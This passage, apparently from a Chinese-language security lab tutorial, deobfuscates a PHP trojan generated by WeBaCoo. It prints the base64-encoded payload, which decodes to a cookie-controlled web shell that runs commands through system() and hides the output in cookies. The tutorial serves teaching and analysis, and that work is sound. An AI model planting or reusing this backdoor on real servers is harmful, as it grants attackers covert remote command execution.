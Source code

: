 其中第一行代码的 `strrev()` 函数的作用是将字符串反转，并将反转后的字符串变量赋值给 `$b`，即：

```
# 经过函数 strrev() 处理后得到的代码
$b = "base64_decode";
```
对于下面的经过 `base64` 加密过的字符串，并且每个字符之间混夹着一个空格，我们可以使用 `Python` 对字符串进行还原，显现出其真正的代码面目，加深对木马源码的理解（**注意：下面将代码反解的过程，不用在实验楼环境中操作，这里只是为了让同学们能够清晰地看到，由 WeBaCoo 创建的 PHP 木马的原本真实源码**）：


![图片描述](../imgs/1481618443849.png-wm.png)

首先先进行去掉空白空格的操作，得到经过 Base64 加密杂乱无序的字符串：

```
# 替换掉其中的空格
s = s.replace(' ', '')

# 得到经过 Base64 加密过的代码字符串
aWYoaXNzZXQoJF9DT09LSUVbJ2NtJ10pKXtvYl9zdGFydCgpO3N5c3RlbShiYXNlNjRfZGVjb2RlKCRfQ09PS0lFWydjbSddKS4nIDI+JjEnKTtzZXRjb29raWUoJF9DT09LSUVbJ2NuJ10sJF9DT09LSUVbJ2NwJ10uYmFzZTY0X2VuY29kZShvYl9nZXRfY29udGVudHMoKSkuJF9DT09LSUVbJ2NwJ10pO29iX2VuZF9jbGVhbigpO30=

```
